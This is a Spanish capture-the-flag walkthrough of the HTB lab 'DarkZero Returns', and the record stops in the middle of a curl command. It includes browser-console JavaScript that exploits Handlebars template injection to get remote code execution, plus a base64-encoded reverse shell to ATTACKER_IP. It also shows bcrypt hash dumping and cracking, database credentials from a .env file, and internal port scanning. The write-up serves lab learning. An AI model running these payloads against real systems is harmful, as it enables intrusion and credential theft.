

# HTB · DarkZero Returns — Walkthrough (User)

**Entorno:** laboratorio HTB · **Host inicial:** SRV01 (Ubuntu) · **Dominio:** `darkzero.ext`.

> **Resumen:** reconocimiento web → SSTI en Handlebars → acceso como `darkzero` → MySQL → acceso como `josh` → Kerberos → Gitea Actions → `svc-runner` → user flag.

Las capturas pertenecen a varias sesiones; las IP y algunos resultados del texto de referencia no coinciden necesariamente con ellas. Se conserva el alcance hasta user.txt, sin afirmar acceso root.



## 1. Reconocimiento TCP

El escaneo de la primera sesión identifica SSH y HTTP. La IP de esa captura es 10.129.211.34; en otra sesión aparece 10.129.215.136.

```bash
nmap -p- --min-rate 5000 -T4 10.129.211.34 -oN puertos.txt
```

`-p-` recorre todos los puertos TCP; `--min-rate` fija la tasa mínima solicitada; `-T4` selecciona un perfil temporal rápido y `-oN` guarda la salida normal.


```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.18 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
|_  256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://dzcampaigns.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```bash
nmap -p- --min-rate 5000 -T4 10.129.211.34 -oN puertos.txt
```


*Figura 01. El escaneo TCP devuelve SSH y HTTP; centramos la enumeración inicial en el servicio web.*

```bash
nmap -p- --min-rate 5000 -T4 10.129.215.136 -oN puertos.txt
```


*Figura 43. Un nuevo escaneo corresponde a otra sesión con una IP diferente.*

## 2. Enumeración web

La aplicación DarkZero Campaigns utiliza nginx y una cookie de sesión `dz.sid`. Se inspeccionan redirecciones y rutas, y se registra una cuenta para acceder al formulario de personajes.

`curl -I` solicita cabeceras; Gobuster enumera rutas a partir de un diccionario. La captura 02 muestra un host distinto (api.htb-airport.htb), por lo que se conserva como evidencia auxiliar, no como confirmación del dominio objetivo.


```bash
┌──(jameskaois㉿kali)-[~]
└─$ whatweb http://dzcampaigns.htb/                                                                
http://dzcampaigns.htb/ [200 OK] Cookies[dz.sid], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.24.0 (Ubuntu)], HttpOnly[dz.sid], IP[10.129.17.163], Script, Title[DarkZero Campaigns], nginx[1.24.0]
```

```bash
curl -I http://10.129.211.23
```


*Figura 02. Esta redirección pertenece a otro host y no confirma el dominio de DarkZero.*

```bash
gobuster dir -u http://10.129.211.34 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 50
```


*Figura 03. Probamos Gobuster contra la IP, pero la redirección dificulta distinguir rutas válidas.*

*Comando reconstruido a partir de las opciones visibles.*

```bash
gobuster dir -u http://dzcampaigns.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 50
```


*Figura 04. Repetimos la enumeración utilizando el nombre virtual dzcampaigns.htb.*

*Captura de interfaz o resultado; no se identifica un comando de terminal independiente.*


*Figura 05. Creamos una cuenta para explorar las funciones disponibles tras autenticarnos.*

*Captura de interfaz o resultado; no se identifica un comando de terminal independiente.*


*Figura 06. El formulario de personaje ofrece varios campos de entrada y un mensaje personalizado.*

*Captura de interfaz o resultado; no se identifica un comando de terminal independiente.*


*Figura 07. Interceptamos la petición con Burp Suite para observar los parámetros enviados.*

*Captura de interfaz o resultado; no se identifica un comando de terminal independiente.*


*Figura 08. La respuesta muestra una redirección al dashboard tras la operación.*

*Captura de interfaz o resultado; no se identifica un comando de terminal independiente.*


*Figura 09. Inicialmente investigamos una posible SQL Injection mediante Burp Suite.*

*Captura de interfaz o resultado; no se identifica un comando de terminal independiente.*


*Figura 10. Comparamos las respuestas de las pruebas; no se confirma una SQL Injection.*

*Captura de interfaz o resultado; no se identifica un comando de terminal independiente.*


*Figura 11. El dashboard permite editar los personajes creados, lo que abre otra superficie de análisis.*

*Captura de interfaz o resultado; no se identifica un comando de terminal independiente.*


*Figura 12. Inspeccionamos la petición y su respuesta para entender el comportamiento de la aplicación.*

*Captura de interfaz o resultado; no se identifica un comando de terminal independiente.*


*Figura 13. Continuamos las pruebas de SQL Injection sin evidencia concluyente de explotación.*

```bash
sqlmap -r login.req --batch --dbs
```


*Figura 14. Utilizamos sqlmap como comprobación adicional de la hipótesis SQLi.*

## 3. SSTI y acceso inicial

El campo de mensaje personalizado revela sintaxis de plantillas. Se prueba Handlebars y se inspecciona la petición de edición del personaje. Las pruebas automáticas previas no se consideran una explotación confirmada.


```
A custom arrival message, if you wish. Default template: 
A new face emerges! The {{race}} {{class}} {{name}} has joined the campaign...
```
La sintaxis del mensaje sugiere SSTI. La prueba con `{{7*7}}` provoca un error, pero no identifica por sí sola el motor. Tras las pruebas iniciales de SQLi, centramos el análisis en el mensaje de campaña de `/character/15/edit`.

*Captura de interfaz o resultado; no se identifica un comando de terminal independiente.*


*Figura 15. El mensaje personalizado contiene variables entre llaves dobles: esto orienta la investigación hacia SSTI.*

```handlebars
{{#if true}}yes{{/if}}
```


*Figura 16. Probamos expresiones de plantilla para observar cómo responde el campo personalizado.*

```bash
python sstimap.py
```


*Figura 17. Utilizamos SSTImap para intentar identificar el motor de plantillas.*

*Captura de interfaz o resultado; no se identifica un comando de terminal independiente.*


*Figura 18. Revisamos la petición de edición del personaje y los parámetros asociados al mensaje.*

*La línea completa no se distingue con suficiente claridad.*


*Figura 19. Repetimos las comprobaciones automatizadas de SSTI; no atribuimos una identificación concluyente a esta captura.*

*Captura de interfaz o resultado; no se identifica un comando de terminal independiente.*


*Figura 20. En Burp examinamos el comportamiento del campo de mensaje en la edición del personaje.*

*Captura de interfaz o resultado; no se identifica un comando de terminal independiente.*


*Figura 21. Los mensajes publicados permiten observar el resultado de las pruebas de plantilla.*

*Captura de interfaz o resultado; no se identifica un comando de terminal independiente.*


*Figura 22. Consultamos la campaña para comprobar cómo se muestran los mensajes generados.*

*Captura de interfaz o resultado; no se identifica un comando de terminal independiente.*


*Figura 23. Inspeccionamos el HTML de la campaña para distinguir el contenido renderizado.*

*Captura de interfaz o resultado; no se identifica un comando de terminal independiente.*


*Figura 24. La petición de edición permite relacionar el formulario con el procesamiento del mensaje.*

La comprobación manual con la sintaxis condicional de Handlebars (`{{#if true}}yes{{/if}}`) permitió identificar el comportamiento esperado del motor, según el texto de referencia. SSTImap fue una comprobación previa, no la única evidencia.

### 3.1. Evidencia de ejecución

El texto de referencia atribuye el acceso a CVE-2026-33937. Se conserva el código aportado como registro del laboratorio. El AST representa la estructura de una plantilla; `_csrf` identifica el token del formulario, `loc` describe posiciones y `credentials: same-origin` conserva la sesión del navegador. El identificador de personaje es un marcador del original.


```
{
  "_csrf": "CHANGE_ME",
  "name": "jameskaois",
  "race": "jameskaois",
  "class": "jameskaois",
  "backstory": "jameskaois",
  "campaign_message": {
  "type": "Program",
  "body": [
    {
      "type": "MustacheStatement",
      "path": {
        "type": "PathExpression",
        "parts": ["log"]
      },
      "params": [
        {
          "type": "BooleanLiteral",
          "value": "{}, {hash: {}})) + process.mainModule.require('child_process').execSync('cat /etc/passwd') + Object(String(''"
        }
      ],
      "escaped": true,
      "loc": {
        "start": {},
        "end": {}
      } 
    }
  ]
}
}
```
On DevTools use the script:
```javascript
const csrf = document.querySelector('[name="_csrf"]').value;
const L = { start: { line: 1, column: 0 }, end: { line: 1, column: 1 } };

const ast = {
  type: "Program",
  body: [{
    type: "MustacheStatement",
    path: {
      type: "PathExpression", data: false, depth: 0,
      parts: ["lookup"], original: "lookup", loc: L
    },
    params: [
      { type: "PathExpression", data: false, depth: 0,
        parts: [], original: "this", loc: L },
      { type: "NumberLiteral",
        value: "{},{})) + process.mainModule.require('child_process').execSync('id').toString() //",
        original: 1, loc: L }
    ],
    escaped: true,
    strip: { open: false, close: false },
    loc: L
  }],
  strip: {},
  loc: L
};

const r = await fetch("/character/<character_id>", {
  method: "POST",
  credentials: "same-origin",
  headers: { "Content-Type": "application/json" },
  body: JSON.stringify({
    _csrf: csrf, name: "Testchar", race: "Elf", class: "Rogue",
    backstory: "test", campaign_message: ast
  })
});
console.log(r.status, await r.text());
```
> Remember to create a character with custom campaign message first, then use the script in `/character/<character_id>/edit` in order for the script to get the CSRF value.

*Script del registro original; conserva sus marcadores.*

```javascript
const csrf = document.querySelector('[name="_csrf"]').value;
const L = { start: { line: 1, column: 0 }, end: { line: 1, column: 1 } };

const ast = {
  type: "Program",
  body: [{
    type: "MustacheStatement",
    path: {
      type: "PathExpression", data: false, depth: 0,
      parts: ["lookup"], original: "lookup", loc: L
    },
    params: [
      { type: "PathExpression", data: false, depth: 0,
        parts: [], original: "this", loc: L },
      { type: "NumberLiteral",
        value: "{},{})) + process.mainModule.require('child_process').execSync('id').toString() //",
        original: 1, loc: L }
    ],
    escaped: true,
    strip: { open: false, close: false },
    loc: L
  }],
  strip: {},
  loc: L
};

const r = await fetch("/character/<character_id>", {
  method: "POST",
  credentials: "same-origin",
  headers: { "Content-Type": "application/json" },
  body: JSON.stringify({
    _csrf: csrf, name: "Testchar", race: "Elf", class: "Rogue",
    backstory: "test", campaign_message: ast
  })
});
console.log(r.status, await r.text());
```


*Figura 25. La consola del navegador registra la prueba realizada desde la página de edición.*

```javascript
console.log(r.status, await r.text());
```


*Figura 26. La respuesta HTTP permite comprobar que la aplicación procesó la petición.*

```bash
id
```


*Figura 27. La salida de id en la campaña confirma el contexto de ejecución darkzero.*

### 3.2. Shell registrada

La evidencia muestra una conexión entrante y el contexto de usuario `darkzero`.

```javascript
const csrf = document.querySelector('[name="_csrf"]').value;
const L = { start: { line: 1, column: 0 }, end: { line: 1, column: 1 } };

const cmd = "bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1";
const b64 = btoa(cmd);
const payload = `{},{})) + process.mainModule.require('child_process').exec('echo ${b64} | base64 -d | bash') //`;

const ast = {
  type: "Program",
  body: [{
    type: "MustacheStatement",
    path: { type: "PathExpression", data: false, depth: 0,
            parts: ["lookup"], original: "lookup", loc: L },
    params: [
      { type: "PathExpression", data: false, depth: 0,
        parts: [], original: "this", loc: L },
      { type: "NumberLiteral", value: payload, original: 1, loc: L }
    ],
    escaped: true,
    strip: { open: false, close: false },
    loc: L
  }],
  strip: {},
  loc: L
};

const r = await fetch("/character/<character_id>", {
  method: "POST",
  credentials: "same-origin",
  headers: { "Content-Type": "application/json" },
  body: JSON.stringify({
    _csrf: csrf, name: "Testchar", race: "Elf", class: "Rogue",
    backstory: "test", campaign_message: ast
  })
});
console.log(r.status);
```
```bash
darkzero@SRV01:~$ id
uid=996(darkzero) gid=987(darkzero) groups=987(darkzero)
```

*Comando inferido de la salida; no aparece la línea de invocación.*

```bash
ip addr
```


*Figura 28. Comprobamos la interfaz VPN utilizada durante esta sesión del laboratorio.*

*Script del registro original; conserva sus marcadores.*

```javascript
const csrf = document.querySelector('[name="_csrf"]').value;
const L = { start: { line: 1, column: 0 }, end: { line: 1, column: 1 } };

const cmd = "bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1";
const b64 = btoa(cmd);
const payload = `{},{})) + process.mainModule.require('child_process').exec('echo ${b64} | base64 -d | bash') //`;

const ast = {
  type: "Program",
  body: [{
    type: "MustacheStatement",
    path: { type: "PathExpression", data: false, depth: 0,
            parts: ["lookup"], original: "lookup", loc: L },
    params: [
      { type: "PathExpression", data: false, depth: 0,
        parts: [], original: "this", loc: L },
      { type: "NumberLiteral", value: payload, original: 1, loc: L }
    ],
    escaped: true,
    strip: { open: false, close: false },
    loc: L
  }],
  strip: {},
  loc: L
};

const r = await fetch("/character/<character_id>", {
  method: "POST",
  credentials: "same-origin",
  headers: { "Content-Type": "application/json" },
  body: JSON.stringify({
    _csrf: csrf, name: "Testchar", race: "Elf", class: "Rogue",
    backstory: "test", campaign_message: ast
  })
});
console.log(r.status);
```


*Figura 29. La consola muestra el script utilizado en la prueba de acceso inicial.*

```javascript
console.log(r.status);
```


*Figura 30. La aplicación devuelve un estado HTTP 200; por sí solo no demuestra acceso al sistema.*

```bash
nc -lvp 4444
```


*Figura 31. La terminal registra una conexión y el prompt darkzero@SRV01.*

## 4. Enumeración local y MySQL

Se inspecciona el directorio de la aplicación y su configuración. `ls -la` incluye archivos ocultos y permisos; `.env` contiene parámetros de conexión.

```bash
darkzero@SRV01:~$ ls -la ../
total 24
drwxr-xr-x  6 root       root     4096 Jul 21 05:39 .
drwxr-xr-x 23 root       root     4096 Jul 20 13:13 ..
drwxrwxr-x  6 darkzero   darkzero 4096 Jul 14 06:10 DarkZero_Campaigns
drwxr-x---  4 svc-runner root     4096 May 20 23:36 gitea-runner
drwxr-xr-x  5 root       root     4096 Jul 21 05:38 sysinternalsEBPF
drwx------  2 root       root     4096 Jul 30 16:30 sysmon
darkzero@SRV01:~$ 

darkzero@SRV01:~$ ls -la
total 84
drwxrwxr-x   6 darkzero darkzero  4096 Jul 14 06:10 .
drwxr-xr-x   6 root     root      4096 Jul 21 05:39 ..
-rw-------   1 darkzero darkzero   133 May 20 10:11 .env
drwxrwxr-x 158 darkzero darkzero  4096 May 19 11:11 node_modules
drwxrwxr-x   4 darkzero darkzero  4096 May 19 10:55 .npm
-rw-rw-r--   1 darkzero darkzero   644 May 19 11:11 package.json
-rw-rw-r--   1 darkzero darkzero 43128 May 19 11:11 package-lock.json
drwxrwxr-x   2 darkzero darkzero  4096 May 19 08:53 scripts
-rw-rw-r--   1 darkzero darkzero  4638 May 19 11:11 server.js
drwxrwxr-x  12 darkzero darkzero  4096 Apr 24 14:45 src
darkzero@SRV01:~$ cat .env
PORT=8081
DB_HOST=localhost
DB_USER=darkzero
DB_PASSWORD=C4ntFindMyDMpass!
DB_NAME=darkzero_campaigns
SESSION_SECRET=DarkSession312#
darkzero@SRV01:~$ 
```

```bash
ls -la ../
ls -la
```


*Figura 32. Enumeramos los directorios locales y observamos la aplicación y el directorio del runner.*

```bash
cat .env
```


*Figura 33. La configuración local contiene los parámetros de conexión a la base de datos.*

`mysql` usa `-u` para usuario, `-p` para contraseña, `-h` para host y `-D` para base de datos. `SHOW TABLES` enumera tablas y `SELECT` consulta registros.

```bash
mysql -u darkzero -p'C4ntFindMyDMpass!' -h localhost -D darkzero_campaigns

mysql> show tables
    -> ;
+------------------------------+
| Tables_in_darkzero_campaigns |
+------------------------------+
| campaign_messages            |
| campaigns                    |
| character_items              |
| characters                   |
| items                        |
| sessions                     |
| users                        |
+------------------------------+
7 rows in set (0.00 sec)

mysql> SELECT * FROM users;
+----+-----------------------+------------+--------------------------------------------------------------+--------+---------------------+
| id | email                 | username   | password_hash                                                | role   | created_at          |
+----+-----------------------+------------+--------------------------------------------------------------+--------+---------------------+
|  1 | admin@dzcampaigns.htb | admin      | $2b$10$HDdWzYvp1IWFD9TB4JsuCerlh.vKchv/LmBruCmKGH19hPP7IXvjm | admin  | 2026-04-19 15:34:56 |
|  3 | josh@dzcampaigns.htb  | josh       | $2b$10$kX7QPjPIQI5hxJWV4a0HpO7UcdstuwLxP51LhHPFP5ceATiOKmVbK | player | 2026-05-19 14:31:30 |
|  4 | jameskaois@gmail.com  | jameskaois | $2b$10$ONXZYqlmnvmuPOALnRAyKuEtJ5ZC0DznQZuMzG1PzpREiAyd6z/7y | player | 2026-07-30 16:32:25 |
+----+-----------------------+------------+--------------------------------------------------------------+--------+---------------------+
```

*Captura de interfaz o resultado; no se identifica un comando de terminal independiente.*


*Figura 34. El listado de tablas permite localizar la información de usuarios.*

*Captura de interfaz o resultado; no se identifica un comando de terminal independiente.*


*Figura 35. La consulta muestra los registros de usuarios y sus hashes.*

## 5. Movimiento lateral a josh

El registro describe la recuperación de la contraseña de josh a partir de bcrypt. `--format` indica el formato del hash y `--wordlist` el diccionario. La referencia contiene una discrepancia entre `hash.txx` y `hash.txt`, conservada sin corregir silenciosamente.

```bash
echo 'josh:$2b$10$kX7QPjPIQI5hxJWV4a0HpO7UcdstuwLxP51LhHPFP5ceATiOKmVbK' > hash.txx
john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:05 0.00% (ETA: 2026-07-30 10:22) 0g/s 157.1p/s 157.1c/s 157.1C/s caitlin..yamaha
Rangers1         (josh)
1g 0:00:02:52 DONE (2026-07-29 04:13) 0.005798g/s 156.7p/s 156.7c/s 156.7C/s babyboys..DAYANA
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

```bash
impacket-smbserver share /tmp/share -smb2support -user a -password a
```


*Figura 36. Se registra el uso de un servidor SMB auxiliar durante esta fase.*

```bash
echo 'josh:$2b$10$kX7QPjPIQI5hxJWV4a0HpO7UcdstuwLxP51LhHPFP5ceATiOKmVbK' > hash.txx
```


*Figura 37. Preparamos el material de la prueba de contraseñas del laboratorio.*

```bash
john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```


*Figura 39. La sesión SSH confirma el acceso como josh.*

*Comando reconstruido a partir de la sesión.*

```bash
ssh josh@10.129.215.136
```


*Figura 38. John muestra el resultado de la comprobación del hash de josh.*

```bash
josh@SRV01:~$ ls -la
total 32
drwx------ 5 josh         1000 4096 May 21 21:23 .
drwxr-xr-x 4 root root         4096 May 21 21:15 ..
lrwxrwxrwx 1 root root            9 May 21 21:23 .bash_history -> /dev/null
-rw-r--r-- 1 josh         1000  220 Mar 31  2024 .bash_logout
-rw-r--r-- 1 josh         1000 3968 Apr 19 14:54 .bashrc
drwx------ 2 josh         1000 4096 May 20 11:13 .cache
drwxrwxr-x 3 josh         1000 4096 May 20 11:13 .local
lrwxrwxrwx 1 josh root            9 May 19 14:36 .mysql_history -> /dev/null
-rw-r--r-- 1 josh         1000  807 Mar 31  2024 .profile
drwx------ 2 josh domain users 4096 Jul 14 06:13 .ssh
josh@SRV01:~$ find / -name user.txt 2>/dev/null
josh@SRV01:~$ 
```

```bash
find / -name "user.txt" 2>/dev/null
```


*Figura 40. Buscamos user.txt sin encontrarlo en esta fase.*

```bash
find /home /opt /srv /var/www /tmp -maxdepth 4 -type f \( -iname "*flag*" -o -iname "*.txt" \) 2>/dev/null
```


*Figura 41. La búsqueda adicional no aporta una flag de usuario.*

## 6. Red interna y Active Directory

`ip route` muestra rutas; `ss -tulnp` lista sockets TCP/UDP, en escucha, numéricos y con proceso cuando está disponible.

```bash
josh@SRV01:~$ ip route
default via 172.16.20.1 dev eth0 onlink 
172.16.20.0/24 dev eth0 proto kernel scope link src 172.16.20.3 
josh@SRV01:~$ ss -tulnp
Netid            State             Recv-Q            Send-Q                        Local Address:Port                          Peer Address:Port            Process            
udp              UNCONN            0                 0                                127.0.0.54:53                                 0.0.0.0:*                                  
udp              UNCONN            0                 0                             127.0.0.53%lo:53                                 0.0.0.0:*                                  
tcp              LISTEN            0                 511                               127.0.0.1:8081                               0.0.0.0:*                                  
tcp              LISTEN            0                 4096                             127.0.0.54:53                                 0.0.0.0:*                                  
tcp              LISTEN            0                 4096                                0.0.0.0:22                                 0.0.0.0:*                                  
tcp              LISTEN            0                 151                               127.0.0.1:3306                               0.0.0.0:*                                  
tcp              LISTEN            0                 511                                 0.0.0.0:80                                 0.0.0.0:*                                  
tcp              LISTEN            0                 4096                          127.0.0.53%lo:53                                 0.0.0.0:*                                  
tcp              LISTEN            0                 70                                127.0.0.1:33060                              0.0.0.0:*                                  
tcp              LISTEN            0                 4096                                   [::]:22                                    [::]:*                                  
tcp              LISTEN            0                 4096                                      *:32887                                    *:*                                  
josh@SRV01:~$ 
```

```bash
ip route
ss -tulnp
```


*Figura 42. Las rutas y sockets muestran servicios locales y una red interna.*

```bash
josh@SRV01:~$ ip route
default via 172.16.20.1 dev eth0 onlink 
172.16.20.0/24 dev eth0 proto kernel scope link src 172.16.20.3 
josh@SRV01:~$ for i in 1 2 3 4 5 10 20 100; do (ping -c1 -w1 172.16.20.$i >/dev/null 2>&1 && echo "172.16.20.$i UP") & done; wait
[1] 1806
[2] 1807
[3] 1810
[4] 1811
[5] 1814
172.16.20.3 UP
[6] 1815
172.16.20.1 UP
[7] 1817
[8] 1820
172.16.20.2 UP
[1]   Done                    ( ping -c1 -w1 172.16.20.$i > /dev/null 2>&1 && echo "172.16.20.$i UP" )
[2]   Done                    ( ping -c1 -w1 172.16.20.$i > /dev/null 2>&1 && echo "172.16.20.$i UP" )
[3]   Done                    ( ping -c1 -w1 172.16.20.$i > /dev/null 2>&1 && echo "172.16.20.$i UP" )
[4]   Exit 1                  ( ping -c1 -w1 172.16.20.$i > /dev/null 2>&1 && echo "172.16.20.$i UP" )
[5]   Exit 1                  ( ping -c1 -w1 172.16.20.$i > /dev/null 2>&1 && echo "172.16.20.$i UP" )
josh@SRV01:~$ 
```
Important:
```
172.16.20.1 UP
172.16.20.2 UP
172.16.20.3 UP
```
```bash
josh@SRV01:~$ cat /etc/resolv.conf
nameserver 172.16.20.2
search darkzero.ext
```

```bash
for i in 1 2 3 4 5 10; do (ping -c1 -w1 172.10.20.$i >/dev/null 2>&1 && echo "127.16.20.$i up"); done;
```


*Figura 44. El sondeo permite identificar equipos accesibles en la red interna.*

```bash
for i in 1 2 3 4 5 10 20 100; do (ping -c1 -w1 172.16.20.$i >/dev/null 2>&1 && echo "172.16.20.$i UP") & done; wait
```


*Figura 45. Se registran las direcciones que responden al sondeo.*

```bash
cat /etc/resolv.conf
```


*Figura 46. La configuración DNS revela el dominio darkzero.ext.*

| IP | Función |
|---|---|
| 172.16.20.1 | Puerta de enlace |
| 172.16.20.2 | Controlador de dominio y Gitea |
| 172.16.20.3 | SRV01 |

Kerberos proporciona tickets de autenticación; LDAP permite consultar el directorio y DNS resuelve los nombres del dominio. La combinación de servicios identifica el controlador de dominio.

```bash
josh@SRV01:~$ for p in 22 53 80 88 135 139 389 443 445 464 636 3000 3268 3389 5985 9389; do (timeout 1 bash -c "echo > /dev/tcp/172.16.20.2/$p" 2>/dev/null && echo "$p OPEN") & done 2>/dev/null; wait

88 OPEN
139 OPEN
135 OPEN
464 OPEN
636 OPEN
5985 OPEN
3000 OPEN
9389 OPEN
53 OPEN
389 OPEN
445 OPEN
3268 OPEN
[1]   Exit 124                ( timeout 1 bash -c "echo > /dev/tcp/172.16.20.2/$p" 2> /dev/null && echo "$p OPEN" )
[2]   Done                    ( timeout 1 bash -c "echo > /dev/tcp/172.16.20.2/$p" 2> /dev/null && echo "$p OPEN" )
[4]   Done                    ( timeout 1 bash -c "echo > /dev/tcp/172.16.20.2/$p" 2> /dev/null && echo "$p OPEN" )
[5]   Done                    ( timeout 1 bash -c "echo > /dev/tcp/172.16.20.2/$p" 2> /dev/null && echo "$p OPEN" )
[6]   Done                    ( timeout 1 bash -c "echo > /dev/tcp/172.16.20.2/$p" 2> /dev/null && echo "$p OPEN" )
[7]   Done                    ( timeout 1 bash -c "echo > /dev/tcp/172.16.20.2/$p" 2> /dev/null && echo "$p OPEN" )
[9]   Done                    ( timeout 1 bash -c "echo > /dev/tcp/172.16.20.2/$p" 2> /dev/null && echo "$p OPEN" )
[10]   Done                    ( timeout 1 bash -c "echo > /dev/tcp/172.16.20.2/$p" 2> /dev/null && echo "$p OPEN" )
[11]   Done                    ( timeout 1 bash -c "echo > /dev/tcp/172.16.20.2/$p" 2> /dev/null && echo "$p OPEN" )
[12]   Done                    ( timeout 1 bash -c "echo > /dev/tcp/172.16.20.2/$p" 2> /dev/null && echo "$p OPEN" )
[13]   Done                    ( timeout 1 bash -c "echo > /dev/tcp/172.16.20.2/$p" 2> /dev/null && echo "$p OPEN" )
[15]-  Done                    ( timeout 1 bash -c "echo > /dev/tcp/172.16.20.2/$p" 2> /dev/null && echo "$p OPEN" )
[16]+  Done                    ( timeout 1 bash -c "echo > /dev/tcp/172.16.20.2/$p" 2> /dev/null && echo "$p OPEN" )
[3]   Exit 124                ( timeout 1 bash -c "echo > /dev/tcp/172.16.20.2/$p" 2> /dev/null && echo "$p OPEN" )
[8]-  Exit 124                ( timeout 1 bash -c "echo > /dev/tcp/172.16.20.2/$p" 2> /dev/null && echo "$p OPEN" )
[14]+  Exit 124                ( timeout 1 bash -c "echo > /dev/tcp/172.16.20.2/$p" 2> /dev/null && echo "$p OPEN" )
```

|Port|Service|Role|Simple Explanation|
|---|---|---|---|
|53|DNS|AD-integrated DNS for `darkzero.ext`|Resolves names for the domain|
|88|Kerberos|Ticket-granting service|Issues authentication tickets|
|135|RPC endpoint mapper|Locates RPC services|Directory for Windows remote procedure calls|
|139|NetBIOS session|Legacy SMB transport|Old-style file sharing|
|389|LDAP|Directory queries, cleartext|Read the directory of users and groups|
|445|SMB|File sharing and named pipes|Modern file sharing; also carries admin protocols|
|464|kpasswd|Kerberos password change|Change domain passwords|
|636|LDAPS|Directory queries over TLS|Encrypted directory access|
|**3000**|**Gitea**|**Self-hosted Git server**|**Source control, running on the DC**|
|3268|Global catalog|Forest-wide directory queries|Search across the whole forest, not just this domain|
|5985|WinRM|Remote PowerShell|Remote command execution|
|9389|AD Web Services|ADWS for PowerShell AD cmdlets|Programmatic directory management|

```bash
for p in 22 53 80 88 135 139 389 443 445 464 636 3000 3268 3389 5985 9389; do (timeout 1 bash -c "echo > /dev/tcp/172.16.20.2/$p" 2>/dev/null && echo "$p OPEN") & done 2>/dev/null; wait
```


*Figura 47. Los puertos internos son compatibles con servicios de Active Directory y Gitea.*

```bash
curl -s -i --max-time 2 http://172.16.20.2:3000 | head -n 20
```


*Figura 48. La respuesta HTTP aporta evidencia del servicio Gitea.*

```bash
ls /opt/
```


*Figura 49. Los directorios de /opt aportan contexto sobre los servicios instalados.*

```bash
curl http://172.16.20.2:3000/ | grep -i gitea
```


*Figura 50. Identificamos Gitea como servicio relevante para la siguiente fase.*

```bash
josh@SRV01:~$ curl http://172.16.20.2:3000/ | grep "gitea"
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
<html lang="en-US" data-theme="gitea-auto">
100 13794    0 13794    <meta name="keywords" content="go,git,self-hosted,gitea">
  0     <meta property="og:url" content="http://gitea.darkzero.ext:3000/">
<link rel="stylesheet" href="/assets/css/theme-gitea-auto.css?v=1.25.0">
                appUrl: 'http:\/\/gitea.darkzero.ext:3000\/',
                customEmojis: {"codeberg":":codeberg:","git":":git:","gitea":":gitea:","github":":github:","gitlab":":gitlab:","gogs":":gogs:"},
                        <a class="item" target="_blank" rel="noopener noreferrer" href="https://docs.gitea.com">Help</a>
0                               Simply <a target="_blank" rel="noopener noreferrer" href="https://docs.gitea.com/installation/install-from-binary">run the binary</a> for your platform, ship it with <a target="_blank" rel="noopener noreferrer" href="https://github.com/go-gitea/gitea/tree/master/docker">Docker</a>, or get it <a target="_blank" rel="noopener noreferrer" href="https://docs.gitea.com/installation/install-from-package">packaged</a>.
                                Go get <a target="_blank" rel="noopener noreferrer" href="https://code.gitea.io/gitea">code.gitea.io/gitea</a>! Join us by <a target="_blank" rel="noopener noreferrer" href="https://github.com/go-gitea/gitea">contributing</a> to make this project even better. Don't be shy to be a contributor!
                        <a target="_blank" rel="noopener noreferrer" href="https://about.gitea.com">Powered by Gitea</a>
  965k      0 --:--:-- --:--:-- --:--:-- 1036k
```
Gitea running version  `1.25.0`
```
/assets/css/theme-gitea-auto.css?v=1.25.0"
```

## 7. Kerberos y autenticación en Gitea

`klist` muestra tickets, `kvno` solicita un ticket de servicio y `getent hosts` consulta la resolución de nombres. `--negotiate -u :` activa la negociación HTTP; `-c` guarda cookies, `-b` las lee, `-s` silencia el progreso, `-o` define el destino y `-w` imprime información de la respuesta.

```bash
josh@SRV01:~$ klist
Ticket cache: KEYRING:persistent:780601110:krb_ccache_OePOnli
Default principal: josh@DARKZERO.EXT

Valid starting       Expires              Service principal
07/30/2026 17:05:14  07/31/2026 03:05:14  krbtgt/DARKZERO.EXT@DARKZERO.EXT
        renew until 08/06/2026 17:05:14
josh@SRV01:~$ which kinit klist kvno; ls -la /etc/krb5.conf
/usr/bin/kinit
/usr/bin/klist
/usr/bin/kvno
-rw-r--r-- 1 root root 693 Jul 30 16:30 /etc/krb5.conf
josh@SRV01:~$ getent hosts gitea.darkzero.ext
172.16.20.2     gitea.darkzero.ext
josh@SRV01:~$ kvno HTTP/gitea.darkzero.ext
HTTP/gitea.darkzero.ext@DARKZERO.EXT: kvno = 3
```
Found `/tmp/gitea_cookies.txt`, verify the authenticated:
```bash
curl -s --negotiate -u : -c /tmp/gitea_cookies.txt \
